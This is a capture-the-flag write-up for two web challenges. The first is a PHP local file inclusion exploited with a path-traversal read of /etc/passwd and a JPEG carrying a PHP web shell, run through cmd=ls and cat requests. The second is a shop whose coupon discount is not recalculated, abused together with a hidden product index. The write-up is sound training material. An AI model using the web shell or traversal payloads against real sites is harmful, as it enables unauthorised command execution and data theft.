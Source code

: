 # Web

##Local Fun Inclusion

## Local Fun Inclusion

**Challenge**

"Recently i learned how to code in PHP. There are cool tutorials for file uploads around! Imgur Memes have no chance vs. my cool image sharing website!

Check it out at: http://lfi.hax1.allesctf.net:8081/"


**Solution**

**Information Gathering:**
The website only allows uploading image files. 
When hitting the **Submit** button without choosing an image, the URL contains a new request `site=upload.php`.
This is a first hint for a **Local File Inclusion** vulnerability. To verify this assumption call the following URL: 

> http://lfi.hax1.allesctf.net:8081/index.php?site=/../../../etc/passwd

We receive the content of **/etc/passed** 

Unfortunately we can't call  

> http://lfi.hax1.allesctf.net:8081/index.php?site=flag.txt

 to get the flag. We probably need a way to read the directories in order to find out what we're looking for.

The page tells you the storage location when uploading an image. This can be used to upload our **own php** code which can be executed with the **Local File Inclusion** vulnerability.
Unfortunately, uploading php files is forbidden by the server. We need an image file with the correct file extension and magic number. Hence, we have to fool the server, by uploading an image file containing php code.

**Exploit Image**:
To generate an empty image we can use the tool **convert**:

> $ convert -size 32x32 xc:white empty.jpg

Now adding your **own php code** to the image comments with **exiftool**:

> $ exiftool -Comment="<?php echo shell_exec($_GET['cmd']); ?>" empty.jpg

(I needed to add **$_GET** manually with vim after executing this command, as it has been removed)

This simple php code `<?php echo shell_exec($_GET['cmd']); ?>` only takes a **GET-Parameter** `cmd` and executes the value as a command. Our goal is to upload this image and execute it with `[BaseURL]/index.php/site=[ImageLocation]&cmd=[arbitraryShellCommand]`. With this approach we can pass arbitrary shell commands, like `ls` to read the directories, or `cat` to read file content.

So we upload this new image and getting the corresponding file location.
Now take the URL and use **Burp** to craft our different requests:
Activate the **Burp proxy** and do a request like `lfi.hax1.allesctf.net:8081/index.php?site=`.
The **Burp proxy** will intercept this request and we can send it to the **Burp Repeater**.

Now just append the file location the the **GET-Request** in the **Burp Repeater**.
The following **GET**-Request will list the files of the current direcotry in the response (Keep in mind that the upload location is different for every upload):
> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=ls

We can see the `flag.php` file, so we are one step away from the flag. By doing another **GET**-Request we can print the content of this file and receive the flag:

> GET /index.php?site=uploads/a2e4822a98337283e39f7b60acf85ec9_1.jpg&cmd=cat%20flag.php



##StayWoke Shop

**Challenge**

"Are you missing some essential items that were sold out in your local supermarket? You can easily stock up on these in my shop:
http://staywoke.hax1.allesctf.net/"

**Solution**

The Challenge is a web shop, which offers different products for 1€ each. 
These can be added to the shopping cart. In addition, we receive a 20% discount coupon through a scrolling news text (**I<3CORONA**). 

So let's search for a weak point. The coupon code seems to be a good starting point. 
Lets start burp and try to play around with the post and get requests of the shop.
My first thought was posting the same coupon multple times to the server, but this didnt change my wallet ballance or anything else.

While playing around with the shop i relized that the discount amount of the coupon was calculates from the current cart balance.
If you have a shopping card with a sum of product cost of 10€, and you use the discount coupon, the "product" **"coupon"** is added to you card.
This product now has costs **"-2€"**. If we remove now the products from our current cart, this amount remains unchanged.
This allows us to buy any of these products. 
Unfortunately buying one of these Products does not give us the flag.
Also the cart is limited to an amount of 10 products so we cant buy all at once.

So lets keep looking for something odd.

While looking at the intercepted requests in burp i relized that the products are indexed with numbers.
I added the product get-request to the repeater and tried the different numbers to see if there is any hidden product.
And yes, there is a product "flag" at the index 1 (GET /products/1 HTTP/1.1), which costs 1337€.

IMAGE
![](writeupfiles/flagProduct.png)

The rest is pretty easy.
I intercepted a product request of an arbitrary product with burp and changed the requested product index to 1.
Now we have one flag product in our cart.
The next step is adding 10 of these flag products to the cart and use the coupon.
With the coupon we now have 20% of the current costs as a negative value in the cart.
Remove the flags until the balance is high enough to buy a flag.
Now only hit the buy-botton while using the payment option "w0kecoint" with an arbitrary account number.

This will lead us to the order conformation which show us the flag: **CSCG{c00l\_k1ds\_st4y\_@\_/home/}**


To avoid this security issue the discount has to be calculated everytime the cart has changed.
